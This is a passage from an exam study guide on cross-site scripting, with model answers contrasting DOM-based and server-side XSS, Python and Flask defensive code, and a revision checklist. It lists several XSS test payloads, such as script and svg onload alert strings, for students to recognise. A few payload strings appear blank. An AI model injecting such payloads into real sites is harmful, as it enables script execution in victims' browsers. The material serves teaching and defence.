> **Examiner Pitfall — Code Marks:** Students often write **only the payload** and forget to show the **server-side vulnerable code** that allowed the storage. The board expects to see the full chain: vulnerable code → payload → request → execution. Missing any one of these loses up to 2 marks.

---

### Question B (14 Marks)
**[KTU University Exam — Dec 2023 (Modeled)]**
**CO2 / CO3 | RBT Levels: Understand + Apply**

**Q: (a) Describe the differences between DOM-based XSS and the server-side XSS variants. Explain with a diagram how the malicious payload flows from the URL fragment to the JavaScript sink in a typical DOM-based XSS scenario. List two real-world cases where DOM-based XSS was exploited. (7 Marks)**

**Q: (b) Implement a defense-in-depth mitigation strategy for a sample web application. Provide code snippets for: (i) input validation using a whitelist, (ii) output encoding using a templating engine, (iii) a Content Security Policy header, and (iv) `HttpOnly` session cookie configuration. Explain how each layer independently blocks the XSS attack. (7 Marks)**

---

#### Part (a) — DOM-Based XSS vs Server-Side XSS (7 Marks)

**Valuation Key Breakdown:**

**[2 Marks] — Key Differences:**

| Comparison Parameter | Server-Side XSS (Stored / Reflected) | DOM-Based XSS |
|---|---|---|
| **Where the flaw lives** | Server-side code that reflects or stores untrusted data | Client-side JavaScript that handles untrusted data |
| **Server visibility** | Payload is visible in HTTP request and response logs | Payload is invisible to the server (often in URL fragment) |
| **Detection tools** | Burp Suite scanner, OWASP ZAP, Nikto | DOM Invader, manual code review, Semgrep |
| **Mitigation primary** | Server-side output encoding | Client-side safe sinks (`textContent`) + Trusted Types |

**[2 Marks] — Payload Flow Diagram (in prose + ASCII):**

```
   [Attacker URL]
   https://app.com/page#
                                  |
                                  v
   [Browser loads page, runs app.js]
                                  |
                                  v
   var section = location.hash.substring(1);  // SOURCE
                                  |
                                  v
   document.getElementById("content").innerHTML = section;  // SINK
                                  |
                                  v
   [Browser parses injected  tag, fires onerror handler]
                                  |
                                  v
   [alert(1) executes in app.com origin]
```

The key terms to mention are **Source** (where untrusted data enters the script, e.g., `location.hash`, `location.search`, `document.referrer`) and **Sink** (a dangerous API that executes the data, e.g., `innerHTML`, `document.write`, `eval`, `setAttribute`).

**[1.5 Marks] — Two Real-World Cases:**

1. **British Airways Data Breach (2018):** A modified version of a Modernizr JavaScript library was injected via an XSS vulnerability in the baggage claims information page. The malicious script harvested approximately **380,000 payment card records** from customers during a 15-day window. While officially disclosed as a Magecart-style supply chain attack, the XSS chain that allowed the script to execute in `britishairways.com` is a textbook DOM-based XSS case.
2. **Yahoo Mail XSS (2015):** Security researcher Jouko Pynnönen discovered a stored/DOM-based XSS in Yahoo Mail that allowed an attacker to send an email containing malicious HTML. When the victim opened the email, the script executed in the `yahoo.com` origin and stole the user's session cookie. Yahoo awarded a **\$10,000 bug bounty**.

**[1.5 Marks] — Concluding Statement:**
DOM-based XSS is increasingly common in modern **Single-Page Applications (SPAs)** built with React, Angular, and Vue, where the client-side JavaScript dynamically constructs the DOM. Server-side scanners cannot detect these flaws, making manual source code review and tools like **DOM Invader** essential.

---

#### Part (b) — Defense-in-Depth Implementation (7 Marks)

**Valuation Key Breakdown:**

**[1.5 Marks] — Layer (i) Whitelist Input Validation:**

```python
import re

# Allow only letters, digits, underscores, and spaces; max 40 chars.
USERNAME_PATTERN = re.compile(r"^[A-Za-z0-9_ ]{1,40}$")

def validate_username(raw_input: str) -> str:
    """Returns cleaned username or raises ValueError if input is malicious."""
    if not USERNAME_PATTERN.match(raw_input):
        raise ValueError("Invalid characters detected in username")
    return raw_input.strip()
```

**Explanation:** A whitelist regex rejects any input containing `<`, `>`, `"`, `'`, or other HTML/JS metacharacters, preventing the payload from being accepted by the server in the first place.

**[1.5 Marks] — Layer (ii) Output Encoding via Templating Engine:**

```html
<!-- Jinja2 template (auto-escaping enabled by default in Flask) -->
<p>Welcome, {{ username }}!</p>
<!-- If username = "<script>alert(1)</script>" -->
<!-- The browser receives: -->
<!-- <p>Welcome, &lt;script&gt;alert(1)&lt;/script&gt;!</p> -->
```

**Explanation:** Even if a malicious value reaches the template, the auto-escaper converts `<` to `&lt;` and `>` to `&gt;`, neutralizing the script tag. The browser renders it as harmless text.

**[1.5 Marks] — Layer (iii) Content Security Policy Header:**

```python
@app.after_request
def apply_csp(response):
    response.headers["Content-Security-Policy"] = (
        "default-src 'self'; "
        "script-src 'self'; "
        "object-src 'none'; "
        "base-uri 'self'; "
        "frame-ancestors 'none'"
    )
    return response
```

**Explanation:** Even if a `<script>` tag survives both input validation and output encoding, the CSP header prevents the browser from executing inline scripts. The browser will refuse to run `<script>alert(1)</script>` because `script-src` is restricted to `'self'` only.

**[1.5 Marks] — Layer (iv) `HttpOnly` and `SameSite` Session Cookie:**

```python
app.config.update(
    SESSION_COOKIE_HTTPONLY=True,   # document.cookie returns empty string
    SESSION_COOKIE_SECURE=True,     # Cookie only sent over HTTPS
    SESSION_COOKIE_SAMESITE="Lax"   # Cookie not sent on cross-site POSTs
)
```

**Explanation:** Even if an attacker successfully injects a script that tries to read `document.cookie`, the `HttpOnly` flag makes the session cookie invisible to JavaScript. The `SameSite=Lax` attribute further prevents the cookie from being attached to cross-site requests that an injected script might attempt.

**[1 Mark] — Defense-in-Depth Closing Argument:**
Each layer addresses a different attack stage: validation stops the payload at the door, encoding neutralizes it during rendering, CSP blocks execution at the browser level, and `HttpOnly` removes the most valuable target (the session cookie). A determined attacker must defeat **all four layers simultaneously** for a successful exploit, which is exponentially harder than defeating any single layer.

> [!WARNING]
> **Examiner Pitfall — CSP Marks:** Students often write a generic CSP like `Content-Security-Policy: default-src *` which is **functionally equivalent to no CSP at all** (it allows everything). The board expects restrictive directives like `script-src 'self'` and `object-src 'none'`. Earning the full 1.5 marks requires restrictive, explicit values.

---

## KTU Examiner's Valuation Warning — Master Pitfall List

> [!WARNING]
> **Common Mark-Loss Patterns Compiled from Past Papers:**
>
> 1. **Confusing XSS with CSRF** — CSRF tricks the user into submitting a forged request; XSS executes code in the user's browser. Examiners deduct 1–2 marks for interchange.
> 2. **Writing "DOM-based XSS is stored in the DOM"** — It is not stored; it is **processed** by the client-side JavaScript reading untrusted data.
> 3. **Suggesting `disable JavaScript` as a mitigation** — While it blocks XSS, it breaks nearly all modern web applications. The board marks this as an impractical answer.
> 4. **Forgetting to mention `HttpOnly` cookies** — When asked about session hijacking mitigation, the only single most important defense is `HttpOnly`. Omitting it loses 1 mark.
> 5. **Writing "XSS is a server-side vulnerability"** — XSS is fundamentally a **client-side execution** vulnerability. The flaw may be on the server, but the damage occurs in the browser.
> 6. **Not showing the vulnerable code, payload, AND exploit trace together** — A 7-mark exploitation question expects all three components. Missing any one loses 2 marks.
> 7. **Confusing encoding types** — Writing *"use Base64 encoding"* when HTML entity encoding is required earns zero. Use the encoding that matches the **injection context** (HTML, JS, URL, CSS).

---

## Topic Recap & Important Things to Remember

> [!NOTE]
> **Rapid Revision Checklist — Read this 30 minutes before the exam:**

- **Definition:** XSS is a client-side code injection vulnerability where untrusted input is executed as a script in a victim's browser within the trusted origin.
- **Three Types:** Stored (persistent in DB), Reflected (in URL/response), DOM-based (entirely client-side).
- **Severity Range (CVSS v3.1):** **6.1 to 9.6**, depending on the application's privilege model.
- **Most Dangerous Variant:** **Stored XSS** — passive, mass compromise, worm-like propagation potential.
- **Hardest to Detect:** **DOM-Based XSS** — invisible to server-side logs and most scanners.
- **The "Big Three" Defenses (must appear in every XSS answer):**
  1. **Input Validation** (whitelist, not blacklist)
  2. **Context-Aware Output Encoding** (HTML, URL, JavaScript, CSS)
  3. **Content Security Policy (CSP)** with restrictive `script-src` directives
- **Cookie Hardening Trio:** `HttpOnly` (blocks JS read), `Secure` (HTTPS only), `SameSite=Lax/Strict` (CSRF mitigation).
- **Dangerous Sinks (Client-Side):** `innerHTML`, `outerHTML`, `document.write`, `eval`, `setTimeout(string)`, `setInterval(string)`, `Function()` constructor, `location.href` assignment from user input.
- **Safe Sinks (Client-Side):** `textContent`, `setAttribute('href', url)` with scheme allow-list, `element.value` for form fields, `insertAdjacentText`.
- **Modern APIs to Know:**
  - **Trusted Types** (browser-enforced, prevents dangerous sinks).
  - **Subresource Integrity (SRI)** for third-party scripts.
  - **DOMPurify** as a vetted client-side sanitizer.
  - **DOM Invader** (Burp Suite) for DOM-XSS detection.
- **Real-World Case Studies:** British Airways (2018, ~380k cards), Yahoo Mail (2015, \$10k bounty), MySpace Samy Worm (2005, first major XSS worm).
- **Code Patterns to Memorize:**
  - Python `bleach.clean(text, tags=[...], strip=True)`
  - JS `element.textContent = userInput`
  - HTTP `Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'`
- **Common Payloads to Recognize in MCQs:**
  - `<script>alert('XSS')</script>`
  - ``
  - `<svg/onload=alert(1)>`
  - `"><script>alert(1)</script>` (attribute escape)
  - `javascript:alert(1)` (URL context)
- **CIA Mapping:** Confidentiality (cookie theft), Integrity (DOM tampering, forged actions), Availability (crypto-miners, worm replication).
- **Detection Tools:** Burp Suite Pro, OWASP ZAP, Nikto, Semgrep, Snyk, DOM Invader.
- **Bug Bounty Benchmark:** Reflected XSS \$500–\$2,000; Stored XSS \$2,000–\$15,000; DOM XSS \$1,000–\$5,000 (typical ranges).
- **One-Line Exam Mnemonic:** *"Validate the input, encode the output, lock the cookies, restrict the scripts, and trust no fragment."*

<!-- SECTION_5_END -->
